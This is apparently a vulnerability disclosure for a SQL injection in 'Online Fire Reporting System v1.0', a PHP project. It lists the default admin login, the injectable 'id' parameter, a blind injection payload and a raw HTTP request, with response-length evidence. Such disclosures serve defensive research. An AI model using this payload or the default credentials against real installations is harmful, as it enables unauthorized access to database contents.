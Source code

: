 # Online Fire Reporting System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability File: /ofrs/admin/?page=teams/view_team&id=

Vulnerability location: /ofrs/admin/?page=teams/view_team&id=, id

Current database name: ofrs_db,length is 7

[+] Payload: /ofrs/admin/?page=teams/view_team&id=2%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /ofrs/admin/?page=teams/view_team&id=2%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 27983
![image](https://user-images.githubusercontent.com/54017627/170817064-036696f4-3d05-4190-ad91-c3bce72ad484.png)

![image](https://user-images.githubusercontent.com/54017627/170817085-cf587744-0952-4ac6-bd75-37187b57b6ab.png)

When length (database ()) = 7, Content-Length: 27927
![image](https://user-images.githubusercontent.com/54017627/170817056-2baeb423-543b-4fc9-901b-cfc3c33563c8.png)

![image](https://user-images.githubusercontent.com/54017627/170817072-0e37ee2c-815a-448c-afff-ab39385ee115.png)
